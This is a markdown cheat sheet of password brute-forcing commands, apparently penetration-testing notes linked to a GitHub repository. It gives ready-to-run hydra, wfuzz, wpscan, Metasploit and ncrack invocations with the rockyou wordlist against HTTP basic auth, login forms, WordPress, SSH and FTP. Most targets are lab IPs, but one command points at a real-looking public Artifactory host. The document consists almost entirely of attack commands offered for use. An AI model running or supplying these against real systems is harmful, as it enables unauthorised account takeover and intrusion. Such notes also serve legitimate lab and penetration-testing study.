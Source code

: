 
- https://github.com/gnebbia/hydra_notes

### Bruteforcing HTTP 

Basic authorization:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt "https-get://jfog.io/artifactory/api/build:F=403" -V -I
```

Bruteforcing a www-encoded login form with wfuzz

```bash
wfuzz -c -z file,/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -d "log=FUZZ&pwd=secretPass123" "$URL"
```

Bruteforcing a www-encoded login form with hydra 

```bash
hydra -l nagiosadmin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/nagiosxi/login.php:username=^USER^&password=^PASS^:F=Invalid username or password." -V -I
```

Bruteforcing Wordpress with wpscan

```bash
wpscan --url "$URL" --usernames users.txt --passwords cewl-wordlist.txt
```

## Bruteforcing SSH 

With hydra 

```bash
hydra -l gaara -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh -V -I
```

Attacking an SSH service on a custom port:

```bash
hydra -s 7744 -l gaara -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh -V -I
```

With Metasploit 

```bash
msfconsole -x "use auxiliary/scanner/ssh/ssh_login; set RHOSTS 192.168.222.82; set USERNAME geisha; set PASS_FILE /usr/share/wordlists/rockyou.txt; set THREADS 30; set VERBOSE true; run"
```

With Ncrack 

```bash
ncrack -p 22 --user geisha -P /usr/share/wordlists/rockyou.txt 192.168.222.82
```

### Bruteforcing FTP 

With hydra

```bash
hydra -l geisha -P /usr/share/wordlists/rockyou.txt 192.168.222.82 -t 30 ftp -V -I
```
